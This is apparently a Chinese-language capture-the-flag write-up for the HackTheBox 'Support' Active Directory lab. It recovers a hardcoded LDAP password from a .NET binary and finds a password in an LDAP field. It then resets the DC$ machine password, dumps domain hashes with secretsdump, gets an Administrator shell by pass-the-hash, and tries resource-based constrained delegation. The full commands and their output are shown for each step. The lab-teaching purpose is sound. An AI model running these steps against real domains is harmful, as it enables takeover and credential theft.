


# Recon
```
PORT     STATE SERVICE       REASON  VERSION
53/tcp   open  domain        syn-ack Simple DNS Plus
135/tcp  open  msrpc         syn-ack Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack
593/tcp  open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: support.htb, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack
9389/tcp open  mc-nmf        syn-ack .NET Message Framing
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 29811/tcp): CLEAN (Timeout)
|   Check 2 (port 50166/tcp): CLEAN (Timeout)
|   Check 3 (port 10778/udp): CLEAN (Timeout)
|   Check 4 (port 46656/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time:
|   date: 2026-07-30T03:38:22
|_  start_date: N/A
|_clock-skew: -18s
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
```

不知道为什么服务信息没有给出来, 整体上是标准的 DC 端口分布, 需要注意的是 smb 签名启用且强制.

## SMB
尝试 `guest:` 登陆, 成功, 从 banner 看服务器版本为 `winserver2022`
```sh
nxc smb 10.129.19.76 -u guest -p '' --shares
SMB         10.129.19.76    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.19.76    445    DC               [+] support.htb\guest:
SMB         10.129.19.76    445    DC               [*] Enumerated shares
SMB         10.129.19.76    445    DC               Share           Permissions     Remark
SMB         10.129.19.76    445    DC               -----           -----------     ------
SMB         10.129.19.76    445    DC               ADMIN$                          Remote Admin
SMB         10.129.19.76    445    DC               C$                              Default share
SMB         10.129.19.76    445    DC               IPC$            READ            Remote IPC
SMB         10.129.19.76    445    DC               NETLOGON                        Logon server share
SMB         10.129.19.76    445    DC               support-tools   READ            support staff tools
SMB         10.129.19.76    445    DC               SYSVOL                          Logon server share
```

有一个非预期共享, 访问并下载共享中文件:
```sh
smbclient.py support.htb/guest:''@10.129.19.76
Impacket (Exegol fork) v0.14.0.dev0+20260623.162750.a2296a07 - Copyright Fortra, LLC and its affiliated companies

Password:
Type help for list of commands
# use support-tools
# ls
drw-rw-rw-          0  Thu Jul 21 01:01:06 2022 .
drw-rw-rw-          0  Sat May 28 19:18:25 2022 ..
-rw-rw-rw-    2880728  Sat May 28 19:19:19 2022 7-ZipPortable_21.07.paf.exe
-rw-rw-rw-    5439245  Sat May 28 19:19:55 2022 npp.8.4.1.portable.x64.zip
-rw-rw-rw-    1273576  Sat May 28 19:20:06 2022 putty.exe
-rw-rw-rw-   48102161  Sat May 28 19:19:31 2022 SysinternalsSuite.zip
-rw-rw-rw-     277499  Thu Jul 21 01:01:07 2022 UserInfo.exe.zip
-rw-rw-rw-      79171  Sat May 28 19:20:17 2022 windirstat1_1_2_setup.exe
-rw-rw-rw-   44398000  Sat May 28 19:19:43 2022 WiresharkPortable64_3.6.5.paf.exe
```

根据时间戳判断 `UserInfo.exe.zip` 可能为特殊的程序, 同时其余分别为从互联网上下载的软件

## Ldap
```sh
 ldapsearch -x -H ldap://10.129.19.76 -b "dc=support,dc=htb"
# extended LDIF
#
# LDAPv3
# base <dc=support,dc=htb> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A5A, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v4f7c
# numResponses: 1
```
LDAP 需要凭据

## DNS
```sh
dig any support.htb @dc.support.htb
; <<>> DiG 9.10.6 <<>> any support.htb @dc.support.htb
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 50036
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 4, AUTHORITY: 0, ADDITIONAL: 2

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;support.htb.			IN	ANY

;; ANSWER SECTION:
support.htb.		600	IN	A	10.129.19.76
support.htb.		600	IN	A	10.129.230.181
support.htb.		3600	IN	NS	dc.support.htb.
support.htb.		3600	IN	SOA	dc.support.htb. hostmaster.support.htb. 117 900 600 86400 3600

;; ADDITIONAL SECTION:
dc.support.htb.		1200	IN	A	10.129.19.76

;; Query time: 146 msec
;; SERVER: 10.129.19.76#53(10.129.19.76)
;; WHEN: Mon Aug 03 22:14:21 CST 2026
;; MSG SIZE  rcvd: 152
```
没什么有趣的信息

# reverse UserInfo.exe
`UserInfo.exe.zip` 不需要凭据可以直接解压缩:
```sh
ls -liah
total 1872
31236543 drwxr-xr-x  15 r3vert  staff   480B Jul 30 11:48 .
31229530 drwxr-xr-x  14 r3vert  staff   448B Jul 30 18:34 ..
31236552 -rw-rw-rw-   1 r3vert  staff    98K Mar  2  2022 CommandLineParser.dll
31236553 -rw-rw-rw-   1 r3vert  staff    22K Oct 23  2021 Microsoft.Bcl.AsyncInterfaces.dll
31236554 -rw-rw-rw-   1 r3vert  staff    46K Oct 23  2021 Microsoft.Extensions.DependencyInjection.Abstractions.dll
31236555 -rw-rw-rw-   1 r3vert  staff    83K Oct 23  2021 Microsoft.Extensions.DependencyInjection.dll
31236556 -rw-rw-rw-   1 r3vert  staff    63K Oct 23  2021 Microsoft.Extensions.Logging.Abstractions.dll
31236557 -rw-rw-rw-   1 r3vert  staff    20K Feb 19  2020 System.Buffers.dll
31236558 -rw-rw-rw-   1 r3vert  staff   138K Feb 19  2020 System.Memory.dll
31236559 -rw-rw-rw-   1 r3vert  staff   113K May 15  2018 System.Numerics.Vectors.dll
31236560 -rw-rw-rw-   1 r3vert  staff    18K Oct 23  2021 System.Runtime.CompilerServices.Unsafe.dll
31236561 -rw-rw-rw-   1 r3vert  staff    25K Feb 19  2020 System.Threading.Tasks.Extensions.dll
31236551 -rwxrwxrwx   1 r3vert  staff    12K May 28  2022 UserInfo.exe
31236562 -rw-rw-rw-   1 r3vert  staff   563B May 28  2022 UserInfo.exe.config

file UserInfo.exe
UserInfo.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
```
解压得到 `.NET` Windows PE 可执行文件, 没有神奇隐藏文件, 使用 `ILSPY` 反编译:


程序使用 `ldap` 账户进行 Ldap 查询, 程序内硬编码了加密后的凭据, 凭据解密方式如下:
```c#
internal class Protected
{
	private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
	private static byte[] key = Encoding.ASCII.GetBytes("armando");
	public static string getPassword()
	{
		byte[] array = Convert.FromBase64String(enc_password);
		byte[] array2 = array;
		for (int i = 0; i < array.Length; i++)
		{
			array2[i] = (byte)(array[i] ^ key[i % key.Length] ^ 0xDF);
		}
		return Encoding.Default.GetString(array2);
	}
}
```

写一个 `python` 脚本解密:
```python
from base64 import b64decode
key = "armando"
enc = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
p = []
array = b64decode(enc)

for i in range(len(array)):
    t = array[i] ^ ord(key[i % len(key)]) ^ 0xDF
    p.append(chr(t))

print(''.join(p))
```

运行, 我们得到了一组凭据: `ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`
```sh
python3 ./key_decode.py
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```
# Act as ldap
用户可以查询 LDAP, 先收集  Bloodhound 数据, 域内账户可创建机器配额数为 `10`, 是个好消息.
```sh
rusthound-ce -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb --zip
---------------------------------------------------
Initializing RustHound-CE at 22:28:19 on 08/03/26
Powered by @g0h4n_0
---------------------------------------------------
...
[2026-08-03T14:28:56Z INFO  rusthound_ce::api] Starting the LDAP objects parsing...
[2026-08-03T14:28:56Z INFO  rusthound_ce::objects::domain] MachineAccountQuota: 10
[2026-08-03T14:28:56Z INFO  rusthound_ce::api] Parsing LDAP objects finished!
[2026-08-03T14:28:56Z INFO  rusthound_ce::json::checker] Starting checker to replace some values...
[2026-08-03T14:28:56Z INFO  rusthound_ce::json::checker] Checking and replacing some values finished!
[2026-08-03T14:28:56Z INFO  rusthound_ce::json::maker::common] 21 users parsed!
[2026-08-03T14:28:56Z INFO  rusthound_ce::json::maker::common] 61 groups parsed!
[2026-08-03T14:28:56Z INFO  rusthound_ce::json::maker::common] 1 computers parsed!
[2026-08-03T14:28:56Z INFO  rusthound_ce::json::maker::common] 1 ous parsed!
[2026-08-03T14:28:56Z INFO  rusthound_ce::json::maker::common] 1 domains parsed!
[2026-08-03T14:28:56Z INFO  rusthound_ce::json::maker::common] 2 gpos parsed!
[2026-08-03T14:28:56Z INFO  rusthound_ce::json::maker::common] 73 containers parsed!
[2026-08-03T14:28:56Z INFO  rusthound_ce::json::maker::common] .//20260803222856_support-htb_rusthound-ce.zip created!

RustHound-CE Enumeration Completed at 22:28:56 on 08/03/26! Happy Graphing!
```



bloodhound 数据给出了一条通往 DomainAdmin 的路, 其中最佳切入点是 `support` 用户, 在 Ldap 中查询 `support` 用户:
```sh
ldapsearch -x -H ldap://10.129.19.76 -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" "(CN=support)"
...
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20260803142558.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
...
```
在 `info` 字段中有一串神奇字符, 猜测其为 `support` 账户密码 


# Act as support
凭据验证以及枚举:
```sh
nxc smb support.htb -u support -p 'Ironside47pleasure40Watchful'
SMB         10.129.19.76    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.19.76    445    DC               [+] support.htb\support:Ironside47pleasure40Watchful

nxc winrm support.htb -u support -p 'Ironside47pleasure40Watchful'
WINRM       10.129.19.76    5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:support.htb)
WINRM       10.129.19.76    5985   DC               [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)

nxc ldap support.htb -u support -p 'Ironside47pleasure40Watchful'
LDAP        10.129.19.76    389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:support.htb) (signing:None) (channel binding:No TLS cert)
LDAP        10.129.19.76    389    DC               [+] support.htb\support:Ironside47pleasure40Watchful
```


## Act As DC$
依据 bloodhound 结果, 最快途径为重置 `DC$` 密码并以 `DC$` 身份执行 `DCsync`:

```sh
bloodyad -d support.htb -u support -p 'Ironside47pleasure40Watchful' -H support.htb set password 'DC$' '#stackcat123!'
[+] Password changed successfully!

nxc smb support.htb -u 'DC$' -p '#stackcat123!'
SMB         10.129.19.76    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.19.76    445    DC               [+] support.htb\DC$:#stackcat123!

secretsdump.py  support.htb/"DC$":'#stackcat123!'@10.129.19.76
Impacket (Exegol fork) v0.14.0.dev0+20260623.162750.a2296a07 - Copyright Fortra, LLC and its affiliated companies

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb06cbc02b39abeddd1335bc30b19e26:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6303be52e22950b5bcb764ff2b233302:::
```
# shell as Administrator
```sh
ewp -i 10.129.19.76 -u Administrator -H bb06cbc02b39abeddd1335bc30b19e26
          _ _            _
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.6.0

[*] Connecting to '10.129.19.76:5985' as 'Administrator'
evil-winrm-py PS C:\Users\Administrator\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
```

# Why not RBCD
你或许会问为什么不用 `rbcd`, 在本机上结果如下:
```sh
addcomputer.py support.htb/support:'Ironside47pleasure40Watchful' -computer-name rbcd -computer-pass '#stackcat123!'
Impacket (Exegol fork) v0.14.0.dev0+20260623.162750.a2296a07 - Copyright Fortra, LLC and its affiliated companies

[*] Successfully added machine account rbcd$ with password #stackcat123!.

impacket-rbcd support.htb/support:'Ironside47pleasure40Watchful' -delegate-to 'DC$' -delegate-from 'rbcd$' -dc-ip 10.129.19.76 -action write -debug
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[+] Impacket Library Installation Path: /Users/r3vert/.pyenv/versions/3.12.7/lib/python3.12/site-packages/impacket
[+] Initializing domainDumper()
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] rbcd$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     rbcd$        (S-1-5-21-1677581083-3380853377-188903654-6101)

impacket-getST -spn cifs/dc.support.htb -impersonate Administrator -dc-ip 10.129.19.76   'support.htb/rbcd$:#stackcat123!'
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache

export KRB5CCNAME=./Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache

impacket-smbexec  -no-pass -k support.htb/Administrator@dc.support.htb  -debug
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[+] Impacket Library Installation Path: /Users/r3vert/.pyenv/versions/3.12.7/lib/python3.12/site-packages/impacket
[+] StringBinding ncacn_np:dc.support.htb[\pipe\svcctl]
[+] Using Kerberos Cache: ./Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
[+] Returning cached credential for CIFS/DC.SUPPORT.HTB@SUPPORT.HTB
[+] Using TGS from cache
[-] SMB SessionError: code: 0xc0000016 - STATUS_MORE_PROCESSING_REQUIRED - {Still Busy} The specified I/O request packet (IRP) cannot be disposed of because the I/O operation is not complete.
```

本地机器为 `Darwin r1ngz0ps.local 24.6.0 Darwin Kernel Version 24.6.0: Tue Apr 21 20:18:11 PDT 2026; root:xnu-11417.140.69.710.16~1/RELEASE_ARM64_T6020 arm64`, 如有遇到相关情况的师傅, 可以到 About 页面给出的群中找我, 万分感谢.
